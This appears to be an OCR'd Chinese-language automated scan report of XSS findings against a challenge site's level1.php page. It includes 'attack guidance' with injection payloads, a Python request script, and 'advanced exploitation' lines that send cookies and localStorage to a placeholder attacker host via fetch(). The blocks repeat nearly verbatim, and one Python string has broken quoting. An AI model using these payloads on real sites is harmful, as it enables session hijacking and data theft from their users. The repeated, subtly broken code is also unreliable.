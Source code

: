 #### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   "><script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '"><script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: critical
- 验证载荷: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
   - 在参数 name 中注入以下payload:
   ```javascript
   <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level1.php?name=test'
   params = {'name': '<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 严重程度: critical
- 验证载荷: <svg onload=alert(document.domain)>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据
